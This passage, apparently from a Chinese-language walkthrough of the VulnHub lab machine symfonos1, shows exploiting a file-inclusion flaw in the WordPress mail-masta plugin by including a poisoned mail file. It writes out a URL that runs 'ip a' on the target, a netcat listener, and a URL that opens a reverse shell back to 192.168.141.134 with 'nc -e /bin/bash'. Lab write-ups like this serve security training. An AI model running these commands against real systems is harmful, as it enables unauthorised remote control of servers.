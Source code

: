 ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos1/17.png)

访问 helios 邮件 `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&a=ip a` 测试

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos1/18.png)

可以执行,测试回弹 shell,kali 监听
```
nc -lvp 4444
```

访问 `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&a=nc -nv 192.168.141.134 4444 -e /bin/bash`
